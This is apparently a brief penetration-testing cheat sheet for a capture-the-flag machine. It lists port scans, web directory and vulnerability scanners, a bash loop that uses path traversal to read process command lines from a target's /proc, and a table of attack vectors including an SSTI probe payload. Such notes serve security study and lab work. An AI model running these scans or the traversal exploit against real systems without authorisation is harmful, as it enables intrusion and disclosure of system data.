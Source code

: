 ```
nmap -sT -p- airplane.thm -T4
nmap -T4 -n -sC -sV -Pn -p-

```


### Web
```
gobuster dir -u https://my.target.site -w /usr/share/wordlists/dirb/big.txt
nikto -h https://my.target.site -p [port]
nuclei -target https://my.target.site -rl 4 # default script with rate limit
nuclei -u https://my.target.site -t myscript.yaml -t myscript_2.yaml <...> -t cves/ -t Exposure/
ffuf -u https://my.target.site/FUZZ -w /path/to/your/wordlist.txt -mc 200
```



```
$ for i in {1..1000}; do echo -n "\r$i"; out=$(curl -s "https://my.target.site?page=../../../../../proc/$i/cmdline" | sed 's/\x00/ /g' | grep -v 'Page not found'); if [ -n "$out" ]; then echo "\r$i : $out"; fi; done
```

### Next steps
https://book.hacktricks.xyz/


|Findings     |Possible vector         |
|-------------|------------------------|
|/?file=      |LFI PathTraversal|
|/profile?id=2|IDOR|
|Content-Type: application/x-www-form-urlencoded <br>message={{7*7}}|SSTI|

